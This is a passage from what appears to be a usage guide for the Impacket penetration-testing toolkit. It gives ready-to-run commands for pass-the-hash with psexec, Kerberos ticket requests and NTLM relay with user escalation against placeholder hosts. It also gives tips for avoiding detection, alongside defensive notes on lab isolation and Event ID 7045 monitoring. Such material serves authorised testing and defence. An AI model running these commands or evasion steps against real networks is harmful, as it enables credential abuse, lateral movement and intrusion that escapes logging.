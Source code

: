## Advanced Techniques
- **Pass-the-Hash**:
  ```bash
  impacket-psexec -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 example.local/user1@192.168.1.101
  ```
- **Kerberos Authentication**:
  ```bash
  impacket-getTGT -k -dc-ip 192.168.1.100 example.local/user1
  ```
- **NTLM Relay with Multi-Protocol**:
  ```bash
  impacket-ntlmrelayx -t http://192.168.1.101 -smb2support --escalate-user user1
  ```
- **Detection Evasion**: Use `-silentcommand` and `-nooutput` with `wmiexec.py` or `smbexec.py` to reduce logging.

## Best Practices
- **Virtual Environments**: Install Impacket in a virtual environment to avoid dependency conflicts:
  ```bash
  pipenv shell
  pip install impacket
  ```
- **Network Segmentation**: Test in isolated environments to avoid unintended impact.[](https://www.logpoint.com/en/blog/the-impacket-arsenal-a-deep-dive-into-impacket-remote-code-execution-tools/)
- **Logging Awareness**: Monitor Event ID 7045 for `smbexec` and `psexec` activity.[](https://www.logpoint.com/en/blog/the-impacket-arsenal-a-deep-dive-into-impacket-remote-code-execution-tools/)
- **Updates**: Use `pip install impacket --upgrade` for the latest features.
- **OPSEC**: Use `-silentcommand` and `-nooutput` to minimize detection.

## Notes on Completeness
This documentation covers all Impacket modules in the `examples` folder as of v0.13.0.dev0, based on the GitHub repository and community resources. New modules or features may be added; check https://github.com/fortra/impacket for updates. Run `impacket-<module> -h` for detailed help.

## References
- Impacket GitHub Repository: https://github.com/fortra/impacket
- Kali Linux Tools: https://www.kali.org/tools/impacket
- Hacking Articles Impacket Guide: https://www.hackingarticles.in
- Red Canary Threat Detection: https://redcanary.com
- SpecterOps Whitepaper (for context on AD attacks): https://specterops.io